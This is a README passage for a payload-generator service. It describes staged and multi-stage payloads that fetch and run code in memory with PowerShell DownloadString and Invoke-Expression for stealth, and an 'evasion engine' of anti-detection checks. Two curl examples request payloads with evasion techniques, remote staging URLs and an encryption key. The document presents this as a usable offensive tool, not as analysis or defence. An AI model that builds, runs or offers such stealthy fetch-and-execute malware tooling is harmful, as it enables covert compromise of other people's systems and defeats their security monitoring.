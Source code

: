 ## 🎯 Key Features Summary

### In-Memory Execution Focus
All new payload types avoid disk writes, using PowerShell's `DownloadData`/`DownloadString` with `Invoke-Expression` for stealth execution.

### Modular Evasion System
The evasion engine provides 10 categories of techniques that can be mixed and matched based on target environment and detection requirements.

### Enterprise Monitoring
Complete visibility into system performance, payload usage, security events, and operational metrics with configurable alerting.

### Production Security
Multi-layer security including API authentication, rate limiting, suspicious activity detection, and comprehensive audit logging.

### Flexible Deployment
Support for Docker containers, standalone deployment, development mode, and production-grade infrastructure with nginx and Redis.

## 🚀 Usage Examples

### Basic Staged Payload with Evasion
```bash
curl -X POST http://localhost:8080/api/generate \
  -H "Content-Type: application/json" \
  -H "x-api-key: your_api_key" \
  -d '{
    "type": "staged",
    "evasion_techniques": ["environment_checks", "process_checks"],
    "complexity_level": 8
  }'
```

### Multi-Stage with Full Evasion
```bash
curl -X POST http://localhost:8080/api/generate \
  -H "Content-Type: application/json" \
  -H "x-api-key: your_api_key" \
  -d '{
    "type": "multi_stage",
    "staging_urls": ["http://staging:9090/stage/1", "http://staging:9090/stage/2"],
    "evasion_techniques": ["environment_checks", "timing_checks", "process_checks", "hardware_checks"],
    "complexity_level": 10,
    "encryption_key": "secure_32_character_encryption_key"
  }'
```
